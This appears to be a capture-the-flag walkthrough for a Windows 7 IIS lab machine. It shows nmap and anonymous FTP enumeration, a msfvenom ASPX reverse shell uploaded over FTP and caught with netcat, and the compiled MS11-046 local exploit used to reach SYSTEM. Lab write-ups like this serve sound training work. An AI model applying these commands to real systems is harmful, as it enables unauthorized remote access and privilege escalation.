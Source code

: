 # IP Address: 10.10.10.5

# Enumeration.1

```
┌──(code㉿kali)-[~]
└─$ nmapAutomator.sh -H 10.10.10.5 -t all

Running all scans on 10.10.10.5

Host is likely running Windows


PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

### FTP
Anonymous login possible. Test file upload. Success.
```
┌──(code㉿kali)-[~]
└─$ ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:code): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put test.txt 
local: test.txt remote: test.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
```

# Exploitation.1

Create reverse shell executable and upload to the target. 
```
┌──(code㉿kali)-[~]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.7 LPORT=4488 -f aspx > reverse.aspx        
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of aspx file: 2737 bytes

┌──(code㉿kali)-[~]
└─$ ftp 10.10.10.5                                                                                  
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:code): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> binary
200 Type set to I.
ftp> put reverse.aspx 
local: reverse.exe remote: reverse.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
73802 bytes sent in 0.00 secs (663.9913 MB/s)
```

Browse to http://10.10.10.5/reverse.aspx and catch reverse shell with netcat listener on port 4488.

```
┌──(code㉿kali)-[~]
└─$ nc -nlvp 4488
listening on [any] 4488 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.5] 49158
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>

```

No access to what directory probably has user.txt.
```
C:\>cd Users
cd Users

C:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 8620-71F1

 Directory of C:\Users

18/03/2017  01:16 ��    <DIR>          .
18/03/2017  01:16 ��    <DIR>          ..
18/03/2017  01:16 ��    <DIR>          Administrator
17/03/2017  04:17 ��    <DIR>          babis
18/03/2017  01:06 ��    <DIR>          Classic .NET AppPool
14/07/2009  09:20 ��    <DIR>          Public
               0 File(s)              0 bytes
               6 Dir(s)  22.282.698.752 bytes free

C:\Users>cd babis
cd babis
Access is denied.

```

# Enumeration.2
Copied over winpeas.exe but it's not running for some reason. We revert to manual enumeration. We are only the iis apppool\web user so we need a privilege escalation vector.

Windows 7 is notoriously riddled with vulnerabilities, so a quick Google search should turn up something. We try the first exploit for MS11-046.

# Exploitation.2

```
┌──(code㉿kali)-[~]
└─$ searchsploit -m windows_x86/local/40564.c

┌──(code㉿kali)-[~]
└─$ i686-w64-mingw32-gcc 40564.c -o afd.exe -lws2_32 
```

Copy the exploit to the target via FTP after setting the transfer mode to binary.

On the target: 
```
C:\inetpub\wwwroot>afd.exe
afd.exe

c:\Windows\System32>whoami 
whoami 
nt authority\system

```

# Proof
user.txt

![[Pasted image 20211113191455.png]]

root.txt

![[Pasted image 20211113191530.png]]